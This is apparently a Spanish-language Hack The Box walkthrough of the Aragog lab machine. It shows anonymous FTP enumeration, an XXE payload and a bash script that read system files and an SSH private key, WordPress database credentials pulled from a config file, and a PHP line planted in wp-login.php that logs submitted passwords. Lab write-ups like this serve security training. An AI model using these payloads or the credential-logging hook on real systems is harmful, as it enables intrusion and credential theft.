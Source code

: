 10.10.10.78 - Aragog

![Aragog](https://user-images.githubusercontent.com/96772264/202145480-9702eaac-406b-4a76-a143-176ff3f6b875.png)

--------------------

# Part 1: Enumeración

Puertos abiertos 22(ssh), 21(ftp), 80(http). Nmap nos dice que:
- Puerto 21 (ftp) -> se puede con anonymous, version vsftpd 3.0.3
- Puerto 80 -> Apache httpd 2.4.18, Nombre aragog.htb

```console
└─$ ftp 10.10.10.78
Name (10.10.10.78:cucuxii): anonymous
230 Login successful.
ftp> prompt off
ftp> dir
-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
ftp> mget *
ftp> exit
└─$ cat test.txt 
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ/
000000070:   403        9 L      28 W       275 Ch      "icons"
000095511:   403        9 L      28 W       275 Ch      "server-status"
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://aragog.htb/FUZZ.php
000006008:   200        3 L      6 W        46 Ch       "hosts"
```
-------------------------------

# Part 2: XXE
La página original es sitio por defecto de apache:
![aragog1](https://user-images.githubusercontent.com/96772264/202145591-d5e35542-8173-4bf1-8371-28d15c27570a.PNG)

La ruta /hosts.php nos dice que hay tales posibles hosts para una red (no nos dice cual).
![aragog2](https://user-images.githubusercontent.com/96772264/202145656-415fb445-c649-4c47-9a36-51db24520c7c.PNG)

Si probamos a darle el archivo que nos descargamos:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 62 possible hosts for 255.255.255.192
```
Nos hace un subneteo.
Cambiamos la ip del test.test por otra al azar:
```console
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt
There are 1902772222 possible hosts for 142.150.0.0
```
Como lo que estamos enviando es un XML, se podría intentar un XXE básico:
```console
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
└─$ curl -s -X POST http://aragog.htb/hosts.php -d @test.txt 
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
-------------------------------

# Part 3: LFI

Tenemos por tanto lectura de archivos, me hice un script para automatizar esto:
```bash
#!/bin/bash

file=$1
rm -rf $(pwd)/test.txt
cat << EOF > $(pwd)/test.txt
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://$file"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
EOF
curl -s -X POST http://aragog.htb/hosts.php -d @test.txt | sed 's/There are .* possible hosts for//g'
```
Dicho script crea un archivo xml cada vez por el archivo que queramos leer, ademas destruye el anterior.

```console
└─$ ./files.sh /etc/passwd | grep "sh$" 
# root, florian y cliff
└─$ for port in $(./files.sh /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | tr "\n" ","; done
22,3306,52600 # Puertos internos (ssh, mysql y otro que no se que es)
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u  | tr "\n" " "
10.10.10.78 127.0.0.1 
# Interfaces abiertas, no parece haber contenedores
└─$ ./files.sh /proc/self/environ # nada
└─$ ./files.sh /home/florian/.ssh/id_rsa
 -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
...
```
Copiamos la id_rsa que acabamos de conseguir. (Quitarle el espacio del principio)

```console
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa florian@10.10.10.78
florian@aragog:~$ 
```
-------------------------------

# Part 4: Explotación de wordpress

Ya tenemos la user.txt con él, para escalar privilegios tiramos de nuestro script de reconocimiento, pero como con él no encuentro nada, tiraré del de [monitoreo](https://github.com/CUCUxii/Pentesting-tools/blob/main/procmon.sh).
```console
florian@aragog:/tmp$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c /usr/bin/python3 /home/cliff/wp-login.py
> /usr/bin/python3 /home/cliff/wp-login.py
> /bin/bash /root/restore.sh

florian@aragog:/tmp$ cat /home/cliff/wp-login.py
cat: /home/cliff/wp-login.py: Permission denied
```
Parece que se están autenticando automaticamente con el script /home/cliff/wp-login.py, aunque no podamos leerlo.
Como nos hablan de wp-login (archivo de wordpress) seguro que existe un wp-config (archivo con creds de la base de datos)
```console
florian@aragog:/tmp$ find / -name "wp-config.php" 2>/dev/null
/var/www/html/zz_backup/wp-config.php # Este nos da permiso denegado
/var/www/html/dev_wiki/wp-config.php  # Este otro si que nos deja leerlo

florian@aragog:/tmp$ cat /var/www/html/dev_wiki/wp-config.php | grep "^define"
define('DB_USER', 'root');
define('DB_NAME', 'wp_wiki');
define('DB_PASSWORD', '$@y6CHJ^$#5c37j$#6h');
define('DB_HOST', 'localhost');

florian@aragog:/tmp$ mysql -u 'root' -p                                                                           
Enter password: $@y6CHJ^$#5c37j$#6h
mysql> show databases; # interesante -> wp_wiki
mysql> use wp_wiki;
mysql> show tables; # -> wp_users
mysql> show columns from wp_users;
mysql> select user_login, user_pass, user_email from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | it@megacorp.com
```

Sería la clave un rabbit hole porque no se pudo romper con el jhon.
En la ruta /var/www/html se guarda el codigo fuente de la web que se está ofreciendo por el servidor
```console
florian@aragog:/var/www/html$ ls
dev_wiki  hosts.php  index.html  zz_backup
```
Como vemos hay una ruta nueva llamada dev_wiki (es un directorio con cosas de wordpress). O sea hay otra página de wordpress **aragog.htb/dev_wiki**

![aragog3](https://user-images.githubusercontent.com/96772264/202146138-9e7b6e30-bb3c-4af5-996e-553f10828540.PNG)

Si se están tratando de autenticar con el script de python de cliff /home/cliff/wp-login.py, podriamos pillar esa autenticción modificando el archivo 
 **./wp-login.php**, poninedo al principio:
```php
<?php
file_put_contents("/var/www/html/creds.txt" ,$_REQUEST, FILE_APPEND);
```
Hacemos un ```watch -n 1 curl -s http://aragog.htb/creds.txt``` y obtenemos las creds: *Administrator:!KRgYs(JFO!&MTr)lf*
```console
min/1florian@aragog:/var/www/html/dev_wiki$ su 
Password: 
root@aragog:~# cat root.txt
```

-------------------------------

# Extra: Script en php hosts.php, subneteo.

¿Que es el subneteo? [Aquí lo explico](https://github.com/CUCUxii/Investigacion/blob/main/Como-funciona/Teoria-redes.md)

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $details = simplexml_import_dom($dom);
    $mask = $details->subnet_mask;
    //echo "\r\nYou have provided subnet $mask\r\n";

    $max_bits = '32';
    $cidr = mask2cidr($mask);
    $bits = $max_bits - $cidr;
    $hosts = pow(2,$bits);
    echo "\r\nThere are " . ($hosts - 2) . " possible hosts for $mask\r\n\r\n";

    function mask2cidr($mask){
         $long = ip2long($mask);
         $base = ip2long('255.255.255.255');
         return 32-log(($long ^ $base)+1,2);
    }
?>
```
